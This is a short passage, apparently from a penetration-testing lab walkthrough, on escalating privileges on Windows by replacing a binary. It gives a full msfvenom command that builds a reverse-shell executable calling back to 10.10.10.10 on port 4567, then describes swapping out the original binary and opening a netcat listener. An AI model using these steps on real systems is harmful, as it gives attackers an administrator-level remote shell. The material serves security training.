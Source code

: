We can create a binary using msfvenom to start a reverse shell with administrator privileges, for example:

`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o rootshell.exe LHOST=10.10.10.10 LPORT=4567`

<figure><img src="../../.gitbook/assets/Untitled 37 (1).png" alt=""><figcaption></figcaption></figure>

Let’s rename the original binary and download the one we created:

<figure><img src="../../.gitbook/assets/Untitled 38 (2).png" alt=""><figcaption></figcaption></figure>

Let’s open a netcat listener on the same port we used to configure the payload:

<figure><img src="../../.gitbook/assets/Untitled 39 (1).png" alt=""><figcaption></figcaption></figure>
